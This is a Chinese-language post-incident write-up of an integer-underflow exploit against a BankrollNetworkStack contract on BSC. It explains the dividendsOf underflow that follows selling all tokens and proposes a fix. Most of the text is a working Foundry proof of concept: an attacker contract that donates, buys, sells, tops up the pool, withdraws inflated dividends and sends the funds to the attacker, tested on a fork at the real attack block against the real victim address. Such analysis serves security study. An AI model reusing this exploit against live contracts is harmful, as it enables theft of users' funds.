

- https://app.blocksec.com/explorer/tx/bsc/0x0f5740cddedefb6dd34596b5099647a72069f90b61becfb9b42484fe5a7f87ee


1. 先看哪里 损失钱了   
2. 再根据受害合约地址找到相关调用    
  
3.  根据相关调用 写POC   
4. 漏洞分析 

## 漏洞分析
> 整数下溢 + 类型转换 


- `withdraws`函数   
- 在`myDividends()`函数中，分红计算基于以下公式： 
```sol
function dividendsOf(address _customerAddress) public view returns (uint256) { 
    return (uint256) ((int256) (profitPerShare_ * tokenBalanceLedger_[_customerAddress]) - payoutsTo_[_customerAddress]) / magnitude; 
}
```
当用户出售(Sell)所有代币后： 
1. `tokenBalanceLedger_[_customerAddress]` 变为 0 
2. 但 `payoutsTo_[_customerAddress]` 仍保持为正值（之前的累计值） 这导致计算： (int256)(0) - (正数) = 负值 
3. 当转换为 uint256 时，会触发整数下溢，产生巨大的正数分红值。  

- Fix
```sol
function dividendsOf(address _customerAddress) public view returns (uint256) { 
   if (tokenBalanceLedger_[_customerAddress] == 0) { return 0; } 
   return (uint256) ((int256) (profitPerShare_ * tokenBalanceLedger_[_customerAddress]) - payoutsTo_[_customerAddress]) / magnitude; 
   }
```
## POC

### 无闪电贷版本
  
```so
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);
}

interface IBankrollNetworkStack {
    function donatePool(uint amount) external returns (uint256);
    function buyFor(address _customerAddress, uint buy_amount) external returns (uint256);
    function withdraw() external;
    function sell(uint256 _amountOfTokens) external;
    function myTokens() external view returns (uint256);
    function transfer(address to, uint256 amount) external returns (bool);
    function myDividends() external view returns (uint256);
}

contract AttackerContract is Test {
    // 受害者合约地址
    address private constant VICTIM_CONTRACT = 0xeF6676536a1d98942d149f52708770e11Db47BcE;
    // WETH代币地址
    address private constant TOKEN = 0x2170Ed0880ac9A755fd29B2688956BD959F933F8;
    address public ATTACKER_EOA;

    constructor(address _attackerEOA) {
        ATTACKER_EOA = _attackerEOA;
    }

    // 接收ETH函数 
    receive() external payable {}

    // 攻击函数 - 直接执行攻击逻辑
    function attack() external {
        require(msg.sender == ATTACKER_EOA, "Only attacker EOA can call this function");
        _executeAttack();
    }

    // 实际攻击执行函数
    function _executeAttack() internal {
        // 打印初始Token余额
        uint256 contractBalance = IERC20(TOKEN).balanceOf(address(this));
        console.log(unicode"合约初始Token余额:", contractBalance / 1e18);

        // 1. 先授权受害合约可以使用Token
        IERC20(TOKEN).approve(VICTIM_CONTRACT, type(uint256).max);

        // 2. 调用donatePool函数,存入资金到分红池
        uint256 donateAmount = 25777277604446591821939; // 存入1万
        IBankrollNetworkStack(VICTIM_CONTRACT).donatePool(donateAmount);
        // 捐赠后，分红池增加：25,777.27 Token
        // 此时合约总 Token 余额：2.644e22 (26,440 Token)
        
        // 3. 使用buyFor购买代币
        uint256 buyAmount = 667805119286181135283; // 购买5000 worth的代币
        IBankrollNetworkStack(VICTIM_CONTRACT).buyFor(address(this), buyAmount);
        // 攻击者获得合约代币：601.024607357563021755 (约 601.02)
        // tokenBalanceLedger_[attacker] = 601.024607357563021755
        // payoutsTo_[attacker] = (int256)(profitPerShare_ * 601.024607357563021755)

        // 4. 获取当前合约持有的代币数量
        uint256 myTokens = IBankrollNetworkStack(VICTIM_CONTRACT).myTokens();
        console.log(unicode"获得的代币数量:", myTokens);
        
        // 5. 出售所有代币获取收益
        IBankrollNetworkStack(VICTIM_CONTRACT).sell(myTokens);
        // 出售后代币余额变为 0：
        // tokenBalanceLedger_[attacker] = 0
        // 但 payoutsTo_[attacker]保持不变（正值）


        uint256 trax = IBankrollNetworkStack(VICTIM_CONTRACT).myDividends() - IERC20(TOKEN).balanceOf(VICTIM_CONTRACT);
        // 这里 很重要 ，我们winthdraw 是 会触发 myDividends( ) 计算分红的, 但是有可能里面已经没有那么多给我们分红了
        // 所以我们要把补上
        IERC20(TOKEN).transfer(VICTIM_CONTRACT,trax);
        // 
        // 6. 提取所有分红收益
        IBankrollNetworkStack(VICTIM_CONTRACT).withdraw();
        
        // 7. 将所有Token转移给攻击者EOA
        uint256 finalBalance = IERC20(TOKEN).balanceOf(address(this));
        if(finalBalance > 0) {
            IERC20(TOKEN).transfer(ATTACKER_EOA, finalBalance);
        }

        console.log(unicode"攻击执行完成, 资金已转移给攻击者EOA");
        console.log(unicode"最终Token余额:", finalBalance / 1e18);
    }
}

contract BankrollNetworkTest is Test {
    address public ATTACKER_EOA;
    address private constant VICTIM_CONTRACT = 0xeF6676536a1d98942d149f52708770e11Db47BcE;
    address private constant TOKEN = 0x2170Ed0880ac9A755fd29B2688956BD959F933F8;
    // 使用BSC上某个持有大量WETH的地址作为资金来源
    address private constant TOKEN_WHALE = 0xF977814e90dA44bFA03b6295A0616a897441aceC;

    AttackerContract private attacker;

    function setUp() public {
        // 创建BSC网络的fork,使用攻击发生的区块
        vm.createSelectFork("https://virtual.binance.eu.rpc.tenderly.co/d6bf3f88-f9d8-493e-b759-7e92f6587bc9", 60376707);

        // 设置攻击者EOA
        ATTACKER_EOA = makeAddr("ATTACKER_EOA");
        
        // 部署攻击合约
        vm.startPrank(ATTACKER_EOA);
        attacker = new AttackerContract(ATTACKER_EOA);
        vm.stopPrank();

        // 给攻击合约一些初始BNB用于支付gas
        vm.deal(address(attacker), 10 ether);

        // 从TOKEN大户转入一些代币作为攻击初始资金
        vm.startPrank(TOKEN_WHALE);
        IERC20(TOKEN).transfer(address(attacker), 26712204771447245411336); // 转入2万Token
        vm.stopPrank();
    }

    function testExploit() public {
        // 记录攻击前余额
        uint256 attackerBalanceBefore = IERC20(TOKEN).balanceOf(ATTACKER_EOA);
        uint256 contractBalanceBefore = IERC20(TOKEN).balanceOf(VICTIM_CONTRACT);

        console.log(unicode"攻击前状态:");
        console.log(unicode"攻击者EOA Token余额:", attackerBalanceBefore / 1e18);
        console.log(unicode"受害者合约Token余额:", contractBalanceBefore / 1e18);

        // 执行攻击
        vm.startPrank(ATTACKER_EOA);
        attacker.attack();
        vm.stopPrank();

        // 记录攻击后余额
        uint256 attackerBalanceAfter = IERC20(TOKEN).balanceOf(ATTACKER_EOA);
        uint256 contractBalanceAfter = IERC20(TOKEN).balanceOf(VICTIM_CONTRACT);

        console.log(unicode"攻击后状态:");
        console.log(unicode"攻击者EOA Token余额:", attackerBalanceAfter / 1e18);
        console.log(unicode"受害者合约Token余额:", contractBalanceAfter / 1e18);

        // 计算总获利（攻击者EOA余额 - 初始投入）
        uint256 initialInvestment = 26712204771447245411336;
        uint256 profit = attackerBalanceAfter - initialInvestment; // 减去初始投入的2万Token
        
        console.log(unicode"总投入(Token):", initialInvestment / 1e18);
        console.log(unicode"总获利(Token):", profit / 1e18);
        
        console.log(unicode"攻击测试完成!");
    }
}
```